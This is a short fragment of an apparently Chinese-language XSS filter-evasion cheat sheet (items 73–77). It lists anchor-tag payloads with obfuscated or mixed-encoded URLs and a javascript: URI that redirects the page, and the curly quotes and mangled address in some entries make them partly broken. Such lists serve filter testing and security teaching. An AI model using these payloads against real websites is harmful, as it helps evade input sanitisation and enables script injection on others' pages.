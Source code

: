 ```text
(73)混合编码
<A HREF=”h
tt p://6 6.000146.0×7.147/”">XSS</A>
(74)节省[http:]
<A HREF=”//www.google.com/”>XSS</A>
(75)节省[www]
<A HREF=”http://google.com/”>XSS</A>
(76)绝对点绝对DNS
<A HREF=”http://www.google.com./”>XSS</A>
(77)javascript链接
<A HREF=”javascript:document.location=’http://www.google.com/’”>XSS</A>
```
